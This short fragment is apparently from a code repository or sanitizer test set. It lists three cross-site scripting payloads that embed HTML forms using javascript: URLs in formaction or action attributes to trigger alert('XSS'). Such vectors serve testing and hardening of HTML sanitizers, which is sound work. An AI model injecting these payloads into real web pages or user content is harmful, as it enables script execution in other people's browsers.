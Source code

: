 ![](https://example.com)<form><input type="submit" formaction="javascript:alert('XSS')"></form>

![](https://example.com)<form><button formaction="javascript:alert('XSS')">Click</button></form>

![](https://example.com)<form action="javascript:alert('XSS')"><input type="submit"></form>